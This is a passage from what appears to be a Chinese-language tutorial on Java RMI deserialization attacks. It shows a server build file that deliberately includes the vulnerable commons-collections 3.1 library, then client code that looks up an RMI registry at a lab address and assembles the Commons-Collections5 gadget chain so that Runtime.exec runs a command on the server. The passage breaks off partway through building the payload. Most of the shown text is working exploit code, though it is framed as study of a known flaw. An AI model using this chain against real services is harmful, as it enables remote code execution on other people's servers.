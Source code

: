 ```java
/**
**	Server端build.gradle
**/
dependencies {
	// 引入我们需要的有漏洞的jar包
    compile group: 'commons-collections', name: 'commons-collections', version: '3.1'
}
```

由于我在Linux服务器上装的jdk版本是1.8，所以直接将之前分析过的Commons-Collections5的payload源码拿过来用：

```java
/**
**	Client端
**/
import java.lang.System;
import java.rmi.Naming;
import java.util.HashMap;
import java.util.Map;
import javax.management.BadAttributeValueExpException;
import java.lang.reflect.Field;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


public class HappyEnding{

    public static void main(String[] args) throws Exception {
        String[] names = Naming.list("rmi://10.10.10.136:5599/");
        for( String name : names){
            System.out.println(name);
        }

        ImInterface ss = (ImInterface)Naming.lookup(names[0]);

        // generate the payload
         
        final String[] execArgs = new String[] { "vlc" };

        final Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, execArgs),
                new ConstantTransformer(1) };

        Transformer transformerChain = new ChainedTransformer(transformers);

        final Map innerMap = new HashMap();

        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);

		TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");

        // =========================== 我是分隔符 ==================================
```